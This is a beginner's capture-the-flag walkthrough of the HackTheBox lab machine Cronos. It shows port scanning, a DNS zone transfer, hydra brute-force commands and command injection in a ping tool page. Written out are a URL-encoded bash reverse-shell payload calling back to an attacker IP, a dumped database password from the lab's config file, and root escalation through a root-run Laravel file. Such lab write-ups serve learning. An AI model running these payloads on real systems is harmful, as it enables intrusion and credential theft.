 ```yaml
---
layout: post
title: HTB-CRONOS(10.10.10.13)
---
```


**Note: This is another old writeup when i started to get into hacking, there is no such big explanation here as i was new to hacking to grasp more knowledge in tool and scripts**

    nmap -sT -Pn -p- -min-rate 4000 --max-retries 1 10.10.10.13
    
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Lets enumerate port 53 (ZONE TRANSFER)

    dig axfr @10.10.10.13 

; <<>> DiG 9.17.21-1-Debian <<>> axfr @10.10.10.13
; (1 server found)
;; global options: +cmd
;; Query time: 4287 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (UDP)
;; WHEN: Thu Feb 03 10:52:54 EST 2022
;; MSG SIZE  rcvd: 28
 1 server found it seems…so let’s check further
    dig axfr cronos.htb @10.10.10.13                                                                            

; <<>> DiG 9.17.21-1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 284 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Thu Feb 03 10:51:58 EST 2022
;; XFR size: 7 records (messages 1, bytes 203)

Let’s add admin.cronos.htb to nano /etc/hosts

Going into browser we found a login page

Tried brute forcing with hydra

With admin
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.13 http-post-form "/admin.cronos.htb:username=admin&password=^PASS^:Your Login Name or Password is invalid"

Without admin

─    hydra -L /etc/theHarvester/wordlists/names_small.txt -P /usr/share/wordlists/rockyou.txt 10.10.10.13 http-post-form "/admin.cronos.htb:username=^USER^&password=^PASS^:Your Login Name or Password is invalid"
Tried brute force but did not work.

There in admin.cronos.htb… I found a net toolv1.which had ping and traceroute tab…

Later i intercepted in burp to check.

And there was problem with the command injection

command=ls –l&host=/var/www -- when I typed this command, I was able to get the directory and some users.

so, I injected the below command for reverse connection.and I was successful

    command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.4/443+0>%261'%26host=

    nc -lvvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:42252.
bash: cannot set terminal process group (1396): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$

www-data@cronos:/var/www/admin$ ls
    ls
config.php
index.php
logout.php
session.php
welcome.php

www-data@cronos:/var/www/admin$ cat config.php
    cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>

We got the admin password.

Let’s login to my sql with this cred – nothing happened

So uploaded linpeas.sh

There I found Laravel has permission to run a file in root mode every time..

So, I copied the content and uploaded the file with same name with my lil code change.

Then I got the connection
    nc -lvvp 443   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:35696.
/bin/sh: 0: can't access tty; job control turned off
    id
uid=0(root) gid=0(root) groups=0(root)
